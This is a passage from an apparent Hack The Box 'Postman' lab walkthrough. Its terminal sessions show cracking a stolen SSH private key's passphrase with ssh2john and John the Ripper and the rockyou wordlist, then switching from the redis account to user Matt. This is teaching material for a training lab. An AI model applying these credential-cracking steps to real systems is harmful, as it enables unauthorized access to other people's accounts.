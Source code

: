 As we copied the private to our system we can try to use it.
```
root@kali:~/Documents/HTB-Labs/Postman# ssh -i matt_id_rsa matt@postman.htb
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'matt_id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "matt_id_rsa": bad permissions
matt@postman.htb's password: 
```

OOPS! Basically, not only we missed to set the proper permissions on the private key from the user found (Matt), but also this private key has a passphrase we need to crack, in this case using John the Ripper with rockyou.txt wordlist. Let do this!
```
root@kali:~/Documents/HTB-Labs/Postman# chmod 0600 matt_id_rsa 
```
Before running the private key through JtR, we need to convert it from SSH to JtR format. Then we can run it against JtR.


##### JohntheRipper:
```
root@kali:~/Documents/HTB-Labs/Postman# ssh2john matt_id_rsa > matt_hash
root@kali:~/Documents/HTB-Labs/Postman# john --wordlist=/usr/share/wordlists/rockyou.txt matt_hash > matt_hash_decoded
Using default input encoding: UTF-8
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
1g 0:00:00:13 DONE (2020-01-06 23:58) 0.07633g/s 1094Kp/s 1094Kc/s 1094KC/sa6_123..*7¡Vamos!
Session completed
root@kali:~/Documents/HTB-Labs/Postman# cat matt_hash_decoded 
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
computer2008     (matt_id_rsa)
```

The passphrase has been cracked **(computer2008)**, let's proceed with SSH.
```
root@kali:~/Documents/HTB-Labs/Postman# ssh -i matt_id_rsa matt@postman.htb
Enter passphrase for key 'matt_id_rsa': 
Connection closed by 10.10.10.160 port 22
root@kali:~/Documents/HTB-Labs/Postman# ssh -i id_rsa redis@postman.htb
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Jan  7 04:43:59 2020 from 10.10.14.28
redis@Postman:~$ su - Matt
Password: 
Matt@Postman:~$ pwd
/home/Matt
```